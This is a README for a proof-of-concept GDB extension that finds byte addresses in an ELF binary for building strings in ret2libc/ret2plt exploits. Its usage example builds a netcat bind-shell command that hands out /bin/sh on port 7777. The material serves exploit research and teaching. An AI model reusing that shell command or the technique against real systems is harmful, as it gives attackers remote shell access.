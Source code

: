 # gdb-memstr

## Description

This is a proof-of-concept GDB extension for assembling arbitrary ASCII strings out of the contents of the address space of an ELF binary.

It can be handy during the development of ret2libc/ret2plt attacks when the user-supplied data is not located at a fixed or predictable location, in which case the arguments for the libc function should be constructed on-the-fly by chaining calls to functions like memcpy/strcpy/strncpy/sprintf/snprintf/etc.

## Installation

> Use the `source`, Luke:
```
(gdb) source /path/to/memstr.py 
```

## Usage

```
$ gdb ./vuln
(gdb) break main
Breakpoint 1 at 0x400587
(gdb) run
Starting program: /home/max/Code/testbed/vuln 
(gdb) memstr "/bin/nc.traditional -lp7777 -e/bin/sh" text
STR = [
    struct.pack('<Q', 0x4015d8),    # /
    struct.pack('<Q', 0x4011ce),    # b
    struct.pack('<Q', 0x400b5a),    # i
    struct.pack('<Q', 0x401fee),    # n
    struct.pack('<Q', 0x4015d8),    # /
    struct.pack('<Q', 0x401fee),    # n
    struct.pack('<Q', 0x400635),    # c
    struct.pack('<Q', 0x40067a),    # .
    struct.pack('<Q', 0x4003da),    # t
    struct.pack('<Q', 0x40094b),    # r
    struct.pack('<Q', 0x4011eb),    # a
    struct.pack('<Q', 0x4006f9),    # d
    struct.pack('<Q', 0x400b5a),    # i
    struct.pack('<Q', 0x4003da),    # t
    struct.pack('<Q', 0x400b5a),    # i
    struct.pack('<Q', 0x401077),    # o
    struct.pack('<Q', 0x401fee),    # n
    struct.pack('<Q', 0x4011eb),    # a
    struct.pack('<Q', 0x4008e7),    # l
    struct.pack('<Q', 0x400787),    #  
    struct.pack('<Q', 0x4003f7),    # -
    struct.pack('<Q', 0x4008e7),    # l
    struct.pack('<Q', 0x400597),    # p
    struct.pack('<Q', 0x4003f1),    # 7
    struct.pack('<Q', 0x4003f1),    # 7
    struct.pack('<Q', 0x4003f1),    # 7
    struct.pack('<Q', 0x4003f1),    # 7
    struct.pack('<Q', 0x400787),    #  
    struct.pack('<Q', 0x4003f7),    # -
    struct.pack('<Q', 0x400f37),    # e
    struct.pack('<Q', 0x4015d8),    # /
    struct.pack('<Q', 0x4011ce),    # b
    struct.pack('<Q', 0x400b5a),    # i
    struct.pack('<Q', 0x401fee),    # n
    struct.pack('<Q', 0x4015d8),    # /
    struct.pack('<Q', 0x400519),    # s
    struct.pack('<Q', 0x4007a2),    # h
    struct.pack('<Q', 0x4003b5)     # \0
]
```

## Thanks
Thanks to [argp](https://twitter.com/_argp) for his input on this.
